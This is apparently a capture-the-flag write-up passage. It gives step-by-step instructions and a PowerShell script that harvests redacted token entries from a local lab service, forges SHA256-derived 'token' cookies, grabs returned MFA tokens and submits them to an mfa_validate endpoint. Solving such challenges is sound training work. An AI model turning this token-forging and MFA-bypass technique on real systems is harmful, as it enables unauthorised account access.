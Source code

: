1. Get the CSV data.
2. Filter out everything except the redacted endpoints.
3. Loop through each redacted endpoint (each one is a line in the file) and do the following:
	1. Separate the `token/md5` value from the full string.
	2. Add the newline character to the `token` value.
	3. Hash the `token` value using sha256.
	4. Convert all characters to uppercase.
	5. Create a cookie named `token` and add the token value to it.
	6. Build the request url with the sha256 hash we just created.
	7. Send the request to the url.
	8. Filter responses for ones that contain the string "href" as this will mean we were returned an MFA token url.
	9. Create the `mfa_cookie` with the supplied value in the previous response.
	10. Send the request to the mfa_validate endpoint.
	11. Print response.

```
# Get all the lines of REDACTED endpoints
$csvContent = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Credential $Credential -AllowUnencryptedAuthentication
$lines = $csvContent.Content -split "`n" | Where-Object { $_ -match ',REDACTED' }

# Create a WebSession object
$webSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

foreach ($line in $lines) {
	$md5Hash = $line -split ',' | Select-Object -First 1
	$bytes = [System.Text.Encoding]::UTF8.GetBytes($md5Hash + "`n") # Create a SHA256 hasher and compute the hash
    $sha256 = [System.Security.Cryptography.SHA256]::Create()
    $hashBytes = $sha256.ComputeHash($bytes) # Convert the hash bytes to a hexadecimal string
    $hashString = [System.BitConverter]::ToString($hashBytes).Replace("-", "").ToUpper()

	# Create and add a cookie to the WebSession
	$cookie = New-Object System.Net.Cookie('token', $md5Hash, '/', '127.0.0.1')
	$webSession.Cookies.Add($cookie)
	
	$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$hashString" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication
	
	if ($response.Content.Contains("href")) {
		# Extract MFA token from response
		$mfa_token = $response.Links.href
		
		# Create new mfa cookie
		$mfa_cookie = New-Object System.Net.Cookie('mfa_token', $mfa_token, '/', '127.0.0.1')
		$webSession.Cookies.Add($mfa_cookie)

		# Send MFA request
		$response2 = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$hashString" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication
		$response2.Content
	}
}
```
